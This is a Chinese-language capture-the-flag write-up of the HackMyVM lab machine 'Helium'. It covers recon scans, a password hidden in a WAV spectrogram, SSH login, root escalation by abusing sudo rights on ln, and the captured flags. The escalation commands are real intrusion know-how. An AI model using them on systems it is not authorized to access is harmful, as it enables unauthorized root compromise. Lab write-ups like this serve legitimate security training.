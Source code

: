 ```yaml
---
title: Helium
author: hgbe02
date: 2025-06-28 01:00:26 +0800
categories: [Training platform,Hackmyvm]  
tags: [Hackmyvm,web]  
permalink: "/Hackmyvm/Helium.html"
---
```


# Helium

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058568.png" alt="image-20250628003751047" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058569.png" alt="image-20250628004412429" style="zoom: 50%;" />

## 信息搜集

### 端口扫描

```bash
┌──(kali㉿kali)-[~/temp/Helium]
└─$ rustscan -a $IP -- -sCV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Because guessing isn't hacking.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.10.103:22
Open 192.168.10.103:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDShbr+Tk6ugvRpNAjWbMqxR1X555LbWq5IVZwq3wXDk+GwY+wauGLd/ntKyNRJF0aid5QaRZXFfhOvYFHbtpr2i2yW5CUIW/2aaVwiHXDKL1DXBXcawr0g1+iVWUEg49W5lBdSEIgqRtmJhBjcXLbEq1V5Fvy3BAP/leOy0ADwwpesjLht50MxE5D7jmZxDEiYavhyOxAcxko4Yp4xXtZ5CkcG741SOYCG6Y77UoFFP50h0oHtJ627+iNvqqWPEQaPNe+0rbJU4C1hkz8Y7OvOeeVaR9JhMg6KTBZTJRB9gC4dlXd9BSP5oOmtpYLitZA5EwYMWaqcwF7v+7S2MNan
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBCOR5F804dZn6AQsF4+t5s0JH2QPd12FYdNIAa9axn2k62dIRIvu/okOvmA0rg2HezQEf8boO6/f3Wf13V9ZDo=
|   256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKFVSupFLBXoYJXyGalYCoVSM7g60dhRbsmKL+eg+k7Z
80/tcp open  http    syn-ack ttl 64 nginx 1.14.2
|_http-title: RELAX
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:C4:16:EB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 目录扫描

```bash
┌──(kali㉿kali)-[~/temp/Helium]
└─$ gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.103/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 530]
/yay                  (Status: 301) [Size: 185] [--> http://192.168.10.103/yay/]
```

## 漏洞发现

### 踩点

```bash
┌──(kali㉿kali)-[~/temp/Helium]
└─$ whatweb http://$IP/
http://192.168.10.103/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], IP[192.168.10.103], Title[RELAX], nginx[1.14.2]
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058570.png" alt="image-20250628004510365" style="zoom:50%;" />

```html

<title>RELAX</title>
<!doctype html>
<html lang="en">

<!-- Please paul, stop uploading weird .wav files using /upload_sound -->

<head>
<style>
body {
  background-image: url('screen-1.jpg');
  background-repeat: no-repeat;
  background-attachment: fixed; 
  background-size: 100% 100%;
}
</style>
    <link href="bootstrap.min.css" rel="stylesheet">
    <meta name="viewport" content="width=device-width, initial-scale=1">
</head>

<body>
<audio src="relax.wav" preload="auto loop" controls></audio>
</body>
```

### wav分析

信息很多！！！！对象叫`paul`

进行尝试：

```bash
┌──(kali㉿kali)-[~/temp/Helium]
└─$ curl -s http://192.168.10.103/bootstrap.min.css 
/yay/mysecretsound.wav

┌──(kali㉿kali)-[~/temp/Helium]
└─$ curl -s http://192.168.10.103/upload_sound/
Upload disabled (or not).
```

进行下载，查看一下隐藏了啥：

```bash
# wget http://$IP/yay/mysecretsound.wav     
┌──(kali㉿kali)-[~/temp/Helium]
└─$ file mysecretsound.wav                                                                                                                                                
mysecretsound.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 44100 Hz

┌──(kali㉿kali)-[~/temp/Helium]
└─$ exiftool mysecretsound.wav                               
ExifTool Version Number         : 13.25
File Name                       : mysecretsound.wav
Directory                       : .
File Size                       : 205 kB
File Modification Date/Time     : 2020:11:22 14:21:02-05:00
File Access Date/Time           : 2025:06:27 12:48:56-04:00
File Inode Change Date/Time     : 2025:06:27 12:48:49-04:00
File Permissions                : -rw-rw-r--
File Type                       : WAV
File Type Extension             : wav
MIME Type                       : audio/x-wav
Encoding                        : Microsoft PCM
Num Channels                    : 1
Sample Rate                     : 44100
Avg Bytes Per Sec               : 88200
Bits Per Sample                 : 16
Duration                        : 2.32 s
```

使用`Audacity`进行查看：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058571.png" alt="image-20250628005213886" style="zoom:50%;" />

发现频谱图存在文字：`dancingpassyo`，尝试登录，发现成功！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058572.png" alt="image-20250628005521390" style="zoom:50%;" />

## 提权

### sudo ln提权

```bash
paul@helium:~$ sudo -l
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

参考：https://gtfobins.github.io/gtfobins/ln/#sudo

```bash
paul@helium:~$ sudo ln -fs /bin/bash /bin/ln
paul@helium:~$ sudo ln
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506280058573.png" alt="image-20250628005700563" style="zoom:50%;" />

```bash
root@helium:~# cat root.txt 
ilovetoberoot
root@helium:~# cat /home/paul/user.txt 
ilovetoberelaxed
```

